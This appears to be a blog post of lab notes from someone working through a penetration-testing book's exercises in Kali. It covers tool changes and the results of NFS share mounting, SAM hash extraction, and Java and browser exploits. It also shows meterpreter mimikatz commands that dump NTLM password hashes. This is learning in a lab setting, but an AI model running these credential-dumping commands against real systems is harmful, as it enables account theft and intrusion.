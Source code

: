In “Exploiting Open NFS Shares” (page 194), when I tried mounting the Ubuntu target’s exported NFS file system, I got this error message: 

    root@kali:~# mount -o nolock 10.10.10.3:/export/georgia /tmp/foo
    mount: /tmp/foo: bad option; for several filesystems (e.g. nfs, cifs) you might need a /sbin/mount.<type> helper program.

Once I did an `apt-get install nfs-common` on my 2017.3 Kali machine, this problem went away.

## Bkhive/samdump2 -> pwdump

In “Recovering Password Hashes from a Windows SAM File” (page 204), the bkhive tool for extracting the bootkey from the SYSTEM file is discussed. Having this key allows you to then use samdump2 to extract the password hashes from the Windows SAM file.

2017.3 Kali doesn’t have the bkhive tool. Instead, it provides the pwdump tool. Pwdump also replaces samdump2′s functionality. Pwdump is part of the creddump package. You can find some documentation for the package [here](https://tools.kali.org/password-attacks/creddump).

## Passwords from Memory

In “Dumping Plaintext Passwords from Memory with Windows Credential Editor” (page 213), the book discusses grabbing unencrypted passwords for logged-in users out of the Local Security Authority Subsystem Service using the WCE tool. Now there’s an alternative tool: Mimikatz, written by Benjamin Delphy. You can find the code and documentation here: https://github.com/gentilkiwi/mimikatz.

Better yet, mimikatz is  built right into the meterpreter. Here’s an example:

    meterpreter > mimikatz_command -f privilege::debug
    Demande d'ACTIVATION du privil�ge : SeDebugPrivilege : OK
    meterpreter > mimikatz_command -f sekurlsa::logonPasswords
    “0;8240710”,“NTLM”,“georgia”,“XPTEST”,“lm{        e52cac67419a9a224a3b108f3fa6cb6d }, ntlm{ 8846f7eaee8fb117ad06bdd830b7586c }”
    password"
    "
    password"

## MS10_002_aurora

I tried to repro the MS10_002_aurora vulnerability (page 220) with Internet Explorer, but no joy. The exploit’s info page says that it only works reliably on Internet Explorer 6. My refurb edition of Windows XP SP3 comes with Internet Explorer 8.

## Java exploits report

So, yeah, Java. I tried out the JRE attacks described in the “Java Exploits” section (page 230), using my Win7 as the victim machine. I had some success and also some not-success.

With IE 11 and the unsigned payloads, I got a warning about how out-of-date my Java was, and I had to click the “run anyway” button. But then my meterpreter shell popped right open. It ran with IE11WIN7\IEUser’s privileges.

I couldn’t get IE11 to play nicely with the signed_applet exercise. On my attacker machine, I saw it send the jarfile over and that it was waiting for the user to click accept. But back on my victim machine, all I saw was the same out-of-date warning, then a “loading” page, but no signed applet security warning.
